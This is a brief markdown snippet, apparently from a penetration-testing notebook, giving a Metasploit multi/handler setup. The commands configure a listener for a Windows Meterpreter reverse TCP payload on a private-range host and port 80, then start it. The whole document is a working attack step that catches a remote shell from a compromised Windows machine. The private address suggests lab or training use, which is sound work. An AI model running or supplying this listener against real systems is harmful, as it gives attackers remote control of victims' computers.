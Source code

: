 # exploit/multi/handler

```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.119.189
set LPORT 80
set EXITFUNC thread
exploit
```

